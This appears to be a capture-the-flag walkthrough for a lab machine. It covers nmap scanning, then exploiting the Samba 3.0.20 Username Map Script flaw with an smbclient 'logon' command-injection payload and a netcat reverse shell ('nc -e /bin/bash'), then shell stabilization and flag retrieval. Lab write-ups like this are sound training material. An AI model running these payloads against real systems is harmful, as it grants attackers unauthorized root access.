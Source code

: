 1. Enumerate ports and version with:
nmap __{VICTIM'S IP}__ --open -sS --min-rate=5000 -p- -n -Pn -vvv __{IP}__ -oN allports
nmap __{VICTIM'S IP}__ -sCV -p __{ports}__ -oN targeted

2. Look at the results of the last command and try something with anonymous in ftp

3. Look for possible CVE in the service versions

4. Try something with vsftpd 2.3.1

5. Exploit Username Map Script in Samba 3.0.20 to gain root access to the machine
	1. Previously you could try to list the local server resources of the smbserver with the command: smbclient -L __{IP}__ -N --option 'client min protocol = NT1'
	- -L : List resources
	- -N : Use a null session (because I don't have any valid login credentials)
	- --option : Use the option client min protocol = NT1 to solve the error that appears when you try to connect with a null session to this specific server
    2. After listing you can connect to the server using: "smbclient //__{IP}__/tmp -N" in order to get server info with an anonymous login
    3. Exploting the vuln Username Map Script you can use the smb command "logon" to inject code using the following expression: "/=\`nohup __{command to exectue}__\`" as a user leading to remote command execution
    4. Try using 'logon "/=\`nohup ping -c 1 __{LOCAL-IP}__\`"' with your home machine listening for incoming icmp with the command tcpdump -i __{INTERFACE}__ icmp -n
    - -i : option to set the interface to dump (tun0 in this case)
    - -n : Doesn't apply dns resolution (similar to nmap -n)
    5. Start netcat in the local machine looking for connections: "nc -lvnp 443" and in the remote machine send a bash console: 'logon "/=\`nohup nc -e /bin/bash __{LOCAL-IP }__ 443\`"'
    6. In the local machine use "script /dev/null -c bash" to make the console look prettier
    7. Change $SHELL to /bin/bash and $TERM to xterm, also do CTRL+Z and insert "stty raw -echo; fg" to enable you to, right after that, use the command "reset xterm" to have a fully interactive console
    8. You can also see in a personal shell the size of your console with the command "stty size" and apply it to the other terminal with "stty rows __{ROWS}__ columns __{COLUMNS}__"
    9. Find the flags and submit them. You can use "find \ -name user.txt | xargs cat" and "find \ -name root.txt | xargs cat"

6. End of the Machine